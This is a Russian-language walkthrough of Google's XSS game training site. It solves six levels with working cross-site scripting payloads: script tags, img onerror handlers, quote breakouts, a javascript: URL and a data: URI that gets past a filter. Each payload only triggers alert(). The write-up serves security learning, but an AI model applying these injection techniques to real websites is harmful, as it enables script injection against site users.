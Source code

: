 # Разбор xss-game от google

- [xss-game](https://xss-game.appspot.com/)

## [1/6]  Level 1: Hello, world of XSS

Видим строку поиска, тыкаем, видим, что улетает GET запрос с параметром ```query```. В ответе говорится, что по моему запросу ничего не найдено. Пробуем скормить спецсимволы, видим, что они встраиваются в DOM.

Тупо скармливаем нагрузку:

```html
<script>alert()</script>
```

## [2/6]  Level 2: Persistence is key

На странице можно оставить комментарий. Пробуем загрузить картинку по несуществующему адресу и вешаем обработчик ошибок:

```html
<img src=qwe onerror=alert()>
```

## [3/6]  Level 3: That sinking feeling...

Итак, видим, что мы можем манипулировать адресом, по которому загружается картинка на страницу. Забавно, что для рендеринга имени картинки парсится ввод, а для формирования адреса нет.

```js
var html = "Image " + parseInt(num) + "<br>";
html += "<img src='/static/level3/cloud" + num + ".jpg' />";
```
Посему, наша нагрузка будет выглядить так:
```
1337' onerror=alert() qwe='
```
С помощью кавычки выходим из контекста имени картинки, вешаем обработчик и добавляем еще один параметр, чтобы расширение картинки не ломало контекст. Получился валидный html:

```html
<img src='/static/level3/cloud1337' onerror=alert()  qwe='.jpg' />
```

## [4/6]  Level 4: Context matters

Тут есть форма, которая шлёт GET запрос с параметром ```timer```. Видим, что далее рендерится страница ```timer.html```

Видим, что мы можем манипулировать аргументом функции обработчика:

```html
<img src="/static/loading.gif" onload="startTimer(\'{{ timer }}\');" />
```

Наша нагрузка будет выглядить так:

```
1');alert('
```

Опять же, выходим из контекста аргумента функции ```startTimer``` и встраиваем свой код:

```html
<img src="/static/loading.gif" onload="startTimer('1');alert('');" />
```

## [5/6]  Level 5: Breaking protocol

Переходим по ссылке для регистрирации, видим, поле для ввода ```email``` и ссылку ```Next```. Видим, что мы можем манипулировать значением ```href```:

```html
<a href="{{ next }}">Next >></a>
```

Все просто, используем протокол ```javascript``` и исполняем свой код:

```
javascript:alert()
```
## [6/6]  Level 6: Follow the 🐇

Не сложно догадаться, что путь ```/static/gadget.js``` в урле неспроста. На странице говорится, что гаджет загружен из ```/static/gadget.js```. Так же мы видим регулярку, которая не дает нам скормить ссылку с протоколами ```https``` и ```http```:

```js
if (url.match(/^https?:\/\//)) {
  setInnerText(document.getElementById("log"),
  "Sorry, cannot load a URL containing \"http\".");
  return;
}
```

Ок, браузер умеет [встраивать файлы прямо в документ](https://developer.mozilla.org/ru/docs/Web/HTTP/Basics_of_HTTP/Data_URIs), чем мы и воспользуемся:

```
data:text/javascript,alert()
```

Вот и всё :)
